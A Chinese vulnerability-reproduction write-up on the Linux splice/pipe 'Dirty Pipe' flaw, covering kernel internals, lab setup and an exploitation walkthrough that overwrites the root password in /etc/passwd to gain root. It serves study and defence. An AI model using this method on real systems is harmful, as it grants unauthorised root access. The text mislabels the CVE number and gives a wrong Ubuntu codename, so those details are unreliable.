# CVE-2022-0874漏洞复现——Linux内核splice系统调用未正确初始化管道缓存漏洞分析（文末附EXP代码）-先知社区

> **来源**: https://xz.aliyun.com/news/16235  
> **文章ID**: 16235

---

# **一、漏洞介绍及其成因**

splice系统调用是一种零拷贝技术，通过增加内存页面的引用计数，而非拷贝数据的方式，减少对数据的拷贝，进而提高系统数据传输的吞吐量。splice系统调用不仅支持网络套接字，还支持管道套接字。漏洞发生在管道套接字缓存pipe\_buffer的处理逻辑中。  
下图所示为splice系统调用原理。



（图片来源于网络公开资料，出处较多，在此不一一列举引用，侵删）

如果应用程序需要从磁盘中读取文件，并将文件的数据发送到socket套接字进行网络传输。应用程序需要将数据先从内核空间拷贝到用户空间，再从用户空间拷贝到以sk\_buff结构体的线性缓冲区和非线性缓冲区中。

实际上，将数据拷贝到用户空间这一步操作是多余的。因此，可以使用splice系统调用，使得相关文件描述符的缓存，直接引用文件页缓存。

然而，在管道缓存pipe\_buffer引用页缓存之后，并未正确初始化相关标志位（PIPE\_BUF\_FLAG\_CAN\_MERGE）。这一漏洞使得攻击者可以在splice系统调用后，往管道套接字缓存中写入数据。该恶意数据数据将破坏页缓存中原有的数据。其他应用程序在读取相同文件时，如果对应的页缓存存在，会直接从该脏页缓存中读取。

攻击者可以通过该漏洞，非法修改系统保护文件的内容，破坏系统权限管理。

CVE-2022-0874 影响的Linux操作系统内核版本范围如下

```
5.8<=Linux kernel<5.16.11/5.15.25/5.10.102
```

# 二、前置知识补充

## 1. pipe系统调用



（图片来源于网络公开资料，出处较多，在此不一一列举引用，侵删）

pipe管道用于实现跨进程通信，其C语言pipe系统调用示例如附件[6.1]所示。

用户使用该系统调用首先需要创建一个长度为2的int类型数组。该函数需要输入2个参数，分别为：pipefd数组、flags标志参数。通常而言，flags参数一般为零。该函数返回0代表调用成功，返回小于零的值代表调用失败。该函数调用成功后，会将写端文件描述符fd返回到pipe[1]的位置，将读端文件描述符fd返回到pipe[0]的位置。

需要注意的是：在示例程序的跨进程使用中，子进程需要关闭写入端文件描述符fd，否则将造成死锁。这是因为：子进程循环从读端读取数据，当管道缓存中没有数据时，如果写端文件描述符还未关闭，Linux内核将阻塞等待，直至写端有数据传入。

## 2. splice系统调用使用

splice系统调用示例代码如附录[6.2]所示。在CVE-2022-0874中，splice系统调用的flags参数为0。需要注意的是：splice系统调用的SPLICE\_F\_MORE标志在Linux内核中并无实现，它是一个无效标志。

# 三、漏洞分析

## 1. pipe\_buffer相关结构体剖析

pipe\_buffer结构体是本漏洞的核心数据结构，该结构体中flags成员字段PIPE\_BUF\_FLAG\_CAN\_MERGE标志位管理是本漏洞的根因。因此，本章节对该结构体进行分析。



该结构体定义如上图源代码所示。page成员是Linux操作系统内核的内存页面指针，用于存放数据。offset成员是内存页面中已读出数据的长度，它在write时被初始化为0。len成员是内存页面的数据总长度。ops成员是操作内存页面的函数指针数组。flags成员是pipe\_buffer结构体的标志变量，存放着漏洞相关的PIPE\_BUF\_FLAG\_CAN\_MERGE标志。private是内存页面操作函数的私有数据。

除此之外，pipe\_buffer结构体包含于更外层的pipe\_inode\_info结构体之中。

## 2. pipe管道写入漏洞逻辑分析


上面分析到用户通过write()系统调用向管道写入数据，会将pipe->flags的PIPE\_BUF\_FLAG\_CAN\_MERGE标志置位，而splice系统调用没有清除该标志位最终导致了漏洞。下文继续分析针对管道内存页面write()系统调用，是如何将该标志置位的。

针对管道内存页面的write()系统调用流程如上图所示。我们需要重点关注流程图中条件判断“检测该buf是否能继续容纳需要写入的数据”部分逻辑。

流程图中条件判断“检测该buf是否能继续容纳需要写入的数据”的核心理念是：页对齐。譬如说：如果需要写入0x4023长度的数据。该算法，首先会对0x4023进行页取余操作。即0x4023&0xfff=0x23。然后，判断内存页面剩余的空间是否能容纳0x23大小的数据。如果能够容纳，则将0x23大小的数据，复制于该pipe\_buffer内存页面page的剩余空间中。该算法提升了pipe\_buffer的内存空间利用率。

漏洞所涉及的PIPE\_BUF\_FLAG\_CAN\_MERGE标志正是为了支持该内存空间优化算法。该标志在为pipe\_buffer申请内存页面page的流程图分支逻辑中，被置位。

本文附件《Linux系统pipe管道方案分析.md》包含“pipe\_buffer结构体嵌套关系”、”pipe\_buffer结构体申请代码分析”、”pipe\_buffer结构体内存页面数据读取分析”、”pipe\_buffer结构体内存页面数据写入分析”、”pipe\_buffer结构体释放分析”。笔者在此向大家分享，希望能够帮助大家进行更深层次的学习理解。

## 3. splice系统调用漏洞逻辑分析

本章节继续分析splice系统调用为何没有将PIPE\_BUF\_FLAG\_CAN\_MERGE标志位清除。

用户使用splice()系统调用，Linux内核最终会在内核空间调用copy\_page\_to\_iter\_pipe()函数。该函数的主要功能是：将系统申请得到的文件页面缓存page，赋值到pipe\_buffer->page指针中，并初始化pipe\_buffer的相关成员变量。



从上述代码注释中可得出，源代码对pipe\_buffer结构体的ops、page、offset、len、head成员进行了设置，但是没有对flags成员进行设置。此时，再次执行针对管道内存页面的write()系统调用，就会向文件缓存页面写入攻击者可控的数据。这便是CVE-2022-0874漏洞原理。

本文附件《Linux系统splice系统调用链分析.md》也有对splice系统调用更深入的代码逻辑分析。

## 4. Linux 用户组管理分析

CVE-2022-0874漏洞利用是篡改Linux用户组管理文件，伪造注册root最高权限根用户，最终实现权限提升。因此，本章节对Linux用户组管理文件进行分析。

Linux操作系统使用两个文件分别记录用户以及用户组的信息。分别是/etc/passwd文件与/etc/group文件。前者记录用户的口令密码，后者记录用户的属组。直观上理解：Linux的每一个用户，必须有对应的一个主要属组。一个用户可以有多个属组。其内涵的意义是：“一个人，一定是自己的小组长”。一个用户可以加入到多个组中，成为别人的组员。

/etc/passwd文件内容的示例如下：

| mark:x:1001:1001:mark,,,:/home/mark:/bin/bash  
[--] - [--] [--] [-----] [--------] [--------]  
| | | | | | |  
| | | | | | +-> 7. login shell  
| | | | | +----------> 6. Home directory  
| | | | +--------------------> 5. GECOS  
| | | +--------------------------> 4. GID  
| | +-------------------------------> 3. UID  
| +-----------------------------------> 2. Password  
+----------------------------------------> 1. Username  
|  
| --- |

可以看见，该文件共有7个字段。第1个字段为用户名、第2个字段Password，第3个字段为用户权限、第4个字段为用户所属主要组权限、第5个字段为描述信息、第6个字段为用户家目录、第7个字段为用户登录程序。其中，第2个字段Password支持“加盐”，即用一个指定数值作为密钥，对密码进行哈希运算，防止密码明文存储风险和哈希键值表攻击。

CVE-2022-0874篡改了/etc/passwd文件，将root用户记录项中的Password字段，篡改为攻击者已知的哈希值，达到了篡改root用户密码的效果。

/etc/gourp文件主要记录Linux系统用户属组。该文件与本漏洞关联性不大，因此不过多赘述，仅在本章节下文给出文件内容示例。



# 四、环境搭建&漏洞利用

## 1. Exploit程序代码编写



如上图所示，对16个pipe\_buffer都写满数据，然后通过read()系统调用，读出所有pipe\_buffer中的数据。根据上述函数分析，如此一来，pipe\_buffer的flags都会将PIPE\_BUF\_FLAG\_CAN\_MERGE标志置位。





打开/etc/passwd文件，然后通过splice()系统调用，修改root的密码为arron。

## 2. Qemu仿真下的环境搭建和漏洞利用

### 4.2.1 配置并编译Linux v5.9.10版本内核

首先从以下地址下载Linux内核v5.9.10

<https://mirrors.edge.kernel.org/pub/linux/kernel/v5.x/linux-5.9.10.tar.gz>

运行附件[6.3 Linux内核编译环境配置]的编译环境配置脚本，安装依赖软件，配置编译环境。

在缺省配置下，该漏洞存在。为了支持内核调试，编译内核主要开启以下功能。



使用make menuconfig时，可以输入斜杠”/”，搜索相关配置选项，比如：CONFIG\_E1000

### 4.2.2 **配置Linux根文件系统**

下载并编译busybox文件系统。具体下载链接与配置参数如下图所示：

下载链接：<https://busybox.net/downloads/busybox-1.33.1.tar.bz2>

配置参数：



Busybox所编译出的根文件系统，并没有创建/etc目录，也没有init文件。为了能够正确配置Linux操作系统的用户组管理，本文自行创建了/etc目录、/etc/passwd文件、/etc/group文件，和init开机启动脚本。  
上述文件具体内容如附件[6.4 Linux根文件系统相关文件内容]所示。  
此外，为了提高实验测试的自动化程度，将exploit漏洞利用程序打包到根文件系统的运维命令如下图所示。



该脚本主要完成3个工作：编译exploit漏洞利用程序、将exploit漏洞利用程序打包到根文件系统中、将打包后的根文件系统赋值到测试目录。

### 4.2.3 通过Qemu启动Linux内核

使用如下命令，启动Qemu，仿真Linux v5.9.10操作系统。



上述命令中，较为重要的参数是：  
-kernel，指定Linux内核镜像为bzImage。该镜像可以Linux内核源代码编译目录的/arch/x86-64/boot中获取。  
-initrd，指定根文件系统。即上文描述的打包根文件系统后获得的test.cpio文件。  
该文件的文本形式，在附件[6.4.4 start.sh文件内容]中。

### 4.2.4 **通过Qemu/GDB调试Linux内核**

使用如下命令，启动gdb，接入GDB调试器。



其中，较为重要的GDB命令为：  
file，使GDB读取Linux v5.9.10内核镜像的符号。vmlinux为Linux内核的未压缩镜像。  
target remote，使得gdb附着到本机的1234调试端口。Qemu的-s参数，将暴露Linux内核的调试接口为localhost:1234。  
该脚本的文本形式如[6.4.5 gdb\_kernel.sh文件内容]所示。

### 4.2.5 演示（Qemu仿真）

在Qemu中运行exp，并输入密码arron便可切换到超级用户。  
需要注意的是：在busybox运行su指令，需要改变su指令的属主与属组为root，并给su指令添加suid标志位。下文为实验介绍。



如图所示，sam为一个普通用户。使用cat /etc/passwd命令，可以观察得到：root没有设置密码。故此时普通用户是无法切换到特权级用户root的。  
运行exploit漏洞利用程序之后，可以观察发现：/etc/passwd文件的内容发生了变化。说明，后门密码arron已经成功写入到/etc/passwd文件中了。  
使用su命令，切换到root超级用户，shell命令行提示需要输入密码。输入arron后门密码后，成功切换到了root超级用户。  
输入id检查root用户的uid、gid权限为0。uid和gid为Linux操作系统的权限凭证，数值越小代表权限越高。0代表最高权限。

## 3. 实机发行版下的环境搭建和漏洞利用

### 4.3.1 概述

由于仿真调试无法实证漏洞在Linux发行版中的危害性。因此，需要配置双机调试环境，测试漏洞exploit程序能够在Linux发行版中实施攻击。  
该环境配置主要分为4个步骤：下载对应版本内核、下载对应版本内核符号文件、下载对应版本源代码、配置grub及双机调试环境。

### 4.3.2 下载对应版本内核镜像

Ubuntu Linux发行版v5.13.0-21受CVE-2022-0874漏洞影响，因此下载linux-image-5.13.0-21-generic内核镜像，与调试符号linux-image-5.13.0-21-generic-dbgsym。  
这与正常下载软件包的操作无异，即在Ubuntu中使用apt命令进行下载。如下图所示：



根据我的试错经验，需要注意的是：在母机操作系统中需要预留/boot分区大小至少256MB以上，并且“越大越好”，谨防下载安装的内核过大，而无法成功安装。

### 4.3.3 下载对应版本内核符号文件

如上一小节所述，对应的内核符号文件为linux-image-5.13.0-21-generic-dbgsym。

在Ubuntu发行版中，存在一个符号服务器，用于存放官方编译内核的符号文件。该服务器的地址为<http://ddebs.ubuntu.com/>

相关的下载命令，如下图所示：



总体上，上述命令顺序完成以下工作：添加符号服务器作为软件源、更新软件源、下载对应版本的内核符号与镜像。

### 4.3.4 下载对应版本源代码

对应版本的源代码仓库地址为：<https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/focal>

Ubuntu发行版的源代码，同步与Linux源代码上游。Ubuntu发行版的源代码存放于launchpad网站中。launchpad网站是Ubuntu系统发行版的托管管理网站。下载源代码的权威指南，可见如下Ubuntu维基百科链接：

<https://wiki.ubuntu.com/Kernel/SourceCode>

具体下载指令，可见如下已编写好的运维脚本：



上述命令的作用已如注释所述。  
测试环境为Ubuntu18.04，其代号为focal，因此<series>字段填写focal。</series>

### 4.3.5 配置grub及双机调试环境

为了能够调试发行版内核，需要配置grub与VMware中的串口通信。下文描述如何配置grub与VMware的通信串口、配置原理。  
Grub是用于引导操作系统内核加载的系统。直观上理解为：BIOS开启启动后，先启动Grub系统，再由Grub系统启动Linux系统。  
KGDB能够附加于Linux操作系统，需要修改Grub引导Linux操作系统的启动参数。  
因此，实操上，直接复制原有的Grub配置项，通过新增配置项的方式，添加相关的KGDB调试参数。  
此外，还需要在命令行中设置系统串口设备的波特率，使其与KGDB调试参数中的波特率一直。  
具体的运维命令如下图所示：



最后，配置VMware的串口通信。  
具体的VMware串口通信配置结果如下图所示：  
上位机：

